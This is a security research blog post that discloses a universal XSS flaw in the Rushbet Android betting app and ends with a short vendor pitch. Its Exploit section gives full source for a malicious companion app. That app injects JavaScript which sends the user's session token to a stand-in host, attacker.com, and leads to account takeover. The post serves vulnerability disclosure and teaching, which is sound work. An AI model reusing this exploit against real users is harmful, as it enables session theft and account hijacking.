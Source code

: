 ```yaml
---
slug: uxss-to-account-takeover-rushbet/
title: UXSS to Account Takeover in Rushbet
date: 2023-01-12
subtitle: Injecting JS into one site is harmful, into all, lethal
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1673554228/blog/uxss-to-account-takeover-rushbet/cover_rushbet.webp
alt: Photo by sebastiaan stam on Unsplash
description: In this blog post, we present in detail a vulnerability we discovered in Rushbet v2022.23.1-b490616d, along with the steps to follow to replicate the exploit.
keywords: Rushbet, Mobile Application, Android, Session, Vulnerability, Exploit, Cross Site Scripting, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/RChZT-JlI9g
---
```


During the 2022 FIFA World Cup,
many people were betting their money in support of their preferred teams.
With this in mind,
I researched which mobile sports betting apps were the most used.

Among all those apps,
I chose Rushbet v2022.23.1-b490616d.
Researching this app,
I discovered that it is possible to steal a user's session token
through a malicious app previously installed on their device.

In this blog post,
I will explain this vulnerability in detail,
where it is found in the code
and what steps need to be followed to replicate the exploit.

## Where is this vulnerability in Rushbet?

Examining the AndroidManifest.xml file,
I found the following exported activity:

```xml
<activity android:theme="@style/AppTheme" android:name="com.sugarhouse.casino.MainActivity" android:exported="true" android:launchMode="singleTop" android:configChanges="fontScale|smallestScreenSize|screenSize|uiMode|screenLayout|orientation|keyboardHidden|keyboard">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="http" android:host="@string/host_url" android:path="/"/>
        <data android:scheme="http" android:host="@string/host_url" android:pathPrefix="/?"/>
        <data android:scheme="https" android:host="@string/host_url" android:pathPrefix="/?"/>
        <data android:scheme="https" android:host="@string/host_url" android:path="/"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="@string/intent_filter_scheme" android:host="@string/intent_filter_host" android:path="/"/>
        <data android:scheme="@string/intent_filter_scheme_cage" android:host="@string/intent_filter_host_cage"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.MY_PACKAGE_REPLACED"/>
    </intent-filter>
</activity>
```

This means
that any app installed on a mobile device
with that vulnerable version of Rushbet
can interact with this activity.

## MainActivity

Once I noticed that,
I went to the exported activity to see what it did and how.
Here,
the application assigns the URL that I send in the intent data
in the variable `this.loadWebviewUrl`:

```java
public final class MainActivity extends Hilt_MainActivity implements [...] {
    // These properties will be used in the onNewIntent listener
    public static final String INTENT_ACTION_EVALUATE_SCRIPT = "Action.EvaluateScript";
    public static final String INTENT_ACTION_EVALUATE_SCRIPT_KEY = "KeyScript";

    [...]

    public void onCreate(Bundle bundle) {
        [...]
        super.onCreate(bundle);
        [...]
        if (activityMainBinding != null) {
            setContentView(activityMainBinding.getRoot());
            [...]
            setWebView();
            [...]
            if (activityMainBinding2 != null) {
                cookieManager.setAcceptThirdPartyCookies(activityMainBinding2.contentMain.activityMainWebview, true);
                Intent intent = getIntent();
                if (intent != null && intent.getData() != null && vf.l.v0(String.valueOf(intent.getData()), HttpHost.DEFAULT_SCHEME_NAME, false)) {
                    this.loadWebviewUrl = String.valueOf(intent.getData());
                }
                [...]
            }
            [...]
        }
        [...]
    }
    [...]
}
```

With the above,
we know
that we can load arbitrary URLs in the WebView:

<image-block>

![“Load arbitrary URLs in the Rushbet WebView”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673554439/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-a.webp)

</image-block>

This is a good catch,
but it’s got a lot more potential.
I went on
to find the biggest impact this error can have.
Many Android applications allow updating the state
of a previously launched activity
through the `onNewIntent` listener:

```java
public void onNewIntent(Intent intent) {
    String str;
    super.onNewIntent(intent);

    if (intent != null) {
        str = intent.getAction();
    } else {
        str = null;
    }

    if (hd.h.a(str, INTENT_ACTION_EVALUATE_SCRIPT)) {
        String stringExtra = intent.getStringExtra(INTENT_ACTION_EVALUATE_SCRIPT_KEY);
        if (stringExtra == null) {
            return;
        }
        onEvaluateScript(stringExtra);
        return;
    }
    [...]
}
```

By analyzing the logic of the `onEvaluateScript` listener,
I realized that I can inject malicious JS
into the domain previously loaded in the WebView:

```java
public final void onEvaluateScript(String str) {
    try {
        ActivityMainBinding activityMainBinding = this.binding;
        if (activityMainBinding != null) {
            WebView webView = activityMainBinding.contentMain.activityMainWebview;
            // Inject malicious JS here
            webView.evaluateJavascript("try{" + str + "} catch (err) {}", null);
            return;
        }
        hd.h.m("binding");
        throw null;
    } catch (RuntimeException e10) {
        vh.a.f18108a.b(e10, "Failed to evaluateScript already on UI thread", new Object[0]);
    }
}
```

We have before our eyes a universal XSS.
This means we can execute malicious JS code on arbitrary domains.
To activate the `onNewIntent` listener,
we would only need
to add the `Handler().postDelayed()` instruction to our exploit.
This instruction updates the state of the previously launched activity.
An example of this is shown below:

<image-block>

![“Add instruction on Rushbet”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673554440/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-b.webp)

</image-block>

<cta-banner
  buttontxt="Read more"
  link="/solutions/ethical-hacking/"
  title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>

## Exploit

To exploit this vulnerability
we must create a malicious application like the following:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <application
        android:allowBackup="false"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:theme="@style/Theme.Badapp"
        tools:targetApi="31">

        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:label="@string/app_name"
            android:theme="@style/Theme.Badapp.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

## POC of account takeover in Rushbet

The next video shows how to exploit this vulnerability
to obtain the user's sessionID
and then use it to access their account:

<video-block>

<iframe
  src="https://user-images.githubusercontent.com/51862990/204892183-b269011b-8211-40c2-87b0-37b320307180.mp4"
  frameborder="0"
  allowfullscreen
>
</iframe>

</video-block>

And here's a screenshot of our end result:

<image-block>

![“Account takeover in Rushbet”](https://res.cloudinary.com/fluid-attacks/image/upload/v1673557293/blog/uxss-to-account-takeover-rushbet/rushbet-vulnerability-fluid-attacks-c.webp)

</image-block>

## Conclusion

As evidenced in this blog post,
an unauthenticated remote attacker can steal the account
of any user logged into the Rushbet v2022.23.1-b490616d mobile app
for Android
via a malicious app installed on their device.

At Fluid Attacks,
we search for complex vulnerabilities in software.
You can secure your technology
by starting your [21-day free trial](https://app.fluidattacks.com/SignUp)
of our automated security testing.
Upgrade at any time
to include assessments by our ethical hackers.

